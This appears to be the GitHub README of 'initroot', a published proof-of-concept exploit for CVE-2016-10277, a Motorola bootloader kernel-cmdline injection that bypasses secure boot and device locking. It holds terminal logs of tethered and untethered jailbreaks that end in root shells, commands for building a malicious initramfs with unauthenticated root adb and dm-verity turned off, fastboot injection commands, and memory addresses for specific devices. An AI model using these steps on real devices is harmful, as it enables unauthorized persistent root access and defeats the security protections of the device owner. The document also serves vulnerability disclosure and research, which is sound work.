 # initroot: Motorola Bootloader Kernel Cmdline Injection Secure Boot & Device Locking Bypass (CVE-2016-10277) #

By Roee Hay / Aleph Research, HCL Technologies

## First stage exploit: Tethered jailbreak ##

This exploit gains an ephemeral unrestricted root access on the device.
For example, on `cedric` (some messages were removed for readability):

```terminal
$ cd ./tethered/cedric
$ ./initroot-tethered.sh
Welcome to initroot-cedric-tethered
...
(bootloader) <UTAG name="fsg-id" type="str" protected="false">
(bootloader)   <value>
(bootloader)     a initrd=0xA2100000,1588596
(bootloader)   </value>
(bootloader)   <description>
(bootloader)     FSG IDs, see http://goo.gl/gPmhU
(bootloader)   </description>
(bootloader) </UTAG>
OKAY [  0.015s]
finished. total time: 0.015s
target reported max download size of 536870912 bytes
sending 'aleph' (34319 KB)...
OKAY [  1.098s]
writing 'aleph'...
(bootloader) Invalid partition name aleph
FAILED (remote failure)
finished. total time: 1.101s
(bootloader) slot-count: not found
(bootloader) slot-suffixes: not found
(bootloader) slot-suffixes: not found
resuming boot...
OKAY [  0.006s]
finished. total time: 0.006s
uid=0(root) gid=0(root) groups=0(root),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3014(readproc) context=u:r:shell:s0
$ adb shell
cedric:/ # 

```

## Second stage exploit: Untethered jailbreak ##

This exploit gains a persistent root access on the device.
For example, on `athene` (some messages were removed for readabilitiy):

```terminal
$ cd ./untethered/athene

./initroot-untethered.sh 
Welcome to initroot-athene-untethered
Welcome to initroot-athene-tethered
...
(bootloader) <UTAG name="fsg-id" type="str" protected="false">
(bootloader)   <value>
(bootloader)     a initrd=0x92000000,2505052
(bootloader)   </value>
(bootloader)   <description>
(bootloader)     FSG IDs, see http://goo.gl/gPmhU
(bootloader)   </description>
(bootloader) </UTAG>

OKAY [  0.015s]
finished. total time: 0.015s
target reported max download size of 536870912 bytes
sending 'aleph' (35214 KB)...
OKAY [  1.131s]
writing 'aleph'...
(bootloader) Invalid partition name aleph
FAILED (remote failure)
finished. total time: 1.138s
(bootloader) slot-count: not found
(bootloader) slot-suffixes: not found
(bootloader) slot-suffixes: not found
resuming boot...
OKAY [  0.006s]
finished. total time: 0.006s
uid=0(root) gid=0(root) groups=0(root),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3014(readproc) context=u:r:kernel:s0
padC-initroot: 1 file pushed. 11.1 MB/s (22937600 bytes in 1.963s)
44800+0 records in
44800+0 records out
22937600 bytes transferred in 3.017 secs (7602784 bytes/sec)
...
(bootloader) <UTAG name="fsg-id" type="str" protected="false">
(bootloader)   <value>
(bootloader)     a rdinit= root=/dev/mmcblk0p41
(bootloader)   </value>
(bootloader)   <description>
(bootloader)     FSG IDs, see http://goo.gl/gPmhU
(bootloader)   </description>
(bootloader) </UTAG>

OKAY [  0.015s]
finished. total time: 0.015s
rebooting...

finished. total time: 0.815s
uid=0(root) gid=0(root) groups=0(root),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3014(readproc) context=u:r:kernel:s0
athene:/ # 

```

## Producing your own malicious initramfs archive ##

1. Use the commited `initroot-<device>.cpio.gz`, or produce your own:
```
$ cd <initramfs folder>
$ find . | grep -v [.]$ | cpio -R root:root -o -H newc | gzip > ../initroot-<device>.cpio.gz
OR if padding is needed:
$ dd if=/dev/zero of=../pad ibs=1 count=<PAD_SIZE>
$ cp ../pad ../initroot-<device>.cpio.gz && find . | grep -v [.]$ | cpio -R root:root -o -H newc | gzip > ../tmp && ls -la ../tmp && cat ../tmp >> ../initroot-<device>.cpio.gz  && rm -fr ../tmp
$ cd ..
```
2. Our commited initramfs images have adb running as root by default. It will not ask for authorization. In addition, dm-verity is disabled on the relevant partitions
```terminal
fastboot oem config fsg-id "a initrd=<SCRATCH_ADDR+PAD_SIZE>,<initroot.cpio.gz size-PAD_SIZE>"`
fastboot flash foo initroot-<device>.cpio.gz`
fastboot continue
```
3. if you use our initramfs, `adb shell` will now give you a root shell:
```
$ adb shell
shamu:/ # id
uid=0(root) gid=0(root) groups=0(root),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc) context=u:r:su:s0
```

## Creating an Untethered exploit for other Moto devices ##

Read our [blog post](https://alephsecurity.com/2017/08/30/untethered-initroot/#persisting-the-payload)


## Verified Devices ##
| Device           | Codename | `SCRATCH_ADDR` | `PADDING`   | committed `initrams` | Unused Partition
|------------------|--------------|--------------|-----------|---------
| Nexus 6  | `shamu` | `0x11000000`   | `0x0`         | AOSP `userdebug` | `mmcblk0p11`
| Moto G5 (XT1676) | `cedric` | `0xA0100000`   | `0x2000000` | Release, patched `init` and `adbd` to disable SELinux, `set{u,g}id` to shell, capabilities drop and adb auth, etc | `mmcblk0p41`
| Moto G4 (XT1622) | `athene` | `0x90000000`   | `0x2000000` | "" | `mmcblk0p48`


## Community Reported ##
| Device           | Codename | `SCRATCH_ADDR` | Reporter | Description
|------------------|--------------|--------------|--------------|-----------
| Moto G5 Plus  | `potter` |  `0xA0100000` | [drbeat](https://github.com/drbeat)  | Injected boot property. [[proof](https://github.com/alephsecurity/initroot/issues/1)]
| Moto G4 Play (XT1607)  | `harpia` | `0x90000000` | [m-mullins](https://github.com/m-mullins)   | Full Exploitation of  Amazon XT1607. [[proof](https://github.com/m-mullins/InitRoot_Harpia)]
| Moto G4 Play (XT1609)  | `harpia` | `0x90000000` | [@utoprime](https://twitter.com/utoprime)   | Full Exploitation of Verizon XT1609. [[proof](https://twitter.com/utoprime/status/873941023050919936)]
| Moto G4 (XT1625) | `athene` | `0x90000000` | [@EWorcel](https://twitter.com/EWorcel) | Injected initrd that caused boot loops. [[proof](https://twitter.com/roeehay/status/868877672016957440)]  
| Moto G3 | `osprey` | `0x90000000` | [@asiekierka](https://twitter.com/asiekierka) | Injected initrd that caused boot loops. [[proof](https://twitter.com/asiekierka/status/873467107090075648)]
| Moto G2 (XT1072) | `thea` | `0x11000000`  | [@TheElix](https://disqus.com/by/TheElix/) | Injected initrd caused boot loops. [[proof](https://disqus.com/home/discussion/alephsecurity/initroot_hello_moto/#comment-3355705740)]
| Moto E (XT830C) | `condor_cdma` | `0x0E000000`  | [fetcher](https://disqus.com/by/disqus_U4zRE0u275/) | Full Exploitation of XT830C locked to Tracfone/Verizon with a 32MB padding [[proof](https://alephsecurity.com/2017/06/07/initroot-moto/#comment-3379229648)]
| Other | - | - | [@jcase](https://twitter.com/jcase) | [[proof](https://twitter.com/jcase/status/868930263782313984)]

## Note ##
This vulnerability may affect other Motorola devices too: a different initramfs will be needed. A different physical address of initrd (`SCRATCH_ADDR`). `PADDING` may vary as well.

## Video Demo ##

[![Video Demo of CVE-2016-10277](http://img.youtube.com/vi/dijRMpv4ktM/0.jpg)](https://www.youtube.com/watch?v=dijRMpv4ktM)

## Publications ##
1. [initroot: Bypassing Nexus 6 Secure Boot through Kernel Command-line Injection](https://alephsecurity.com/2017/05/23/nexus6-initroot/)
2. [initroot: Hello Moto](https://alephsecurity.com/2017/06/07/initroot-moto/)
3. [Motorola Android Bootloader Kernel Cmdline Injection Secure Boot Bypass](https://alephsecurity.com/vulns/aleph-2017011)
4. [Untethered initroot (USENIX WOOT '17)](https://alephsecurity.com/2017/08/30/untethered-initroot)
5. [USENIX WOOT '17 paper](https://www.usenix.org/conference/woot17/workshop-program/presentation/hay)


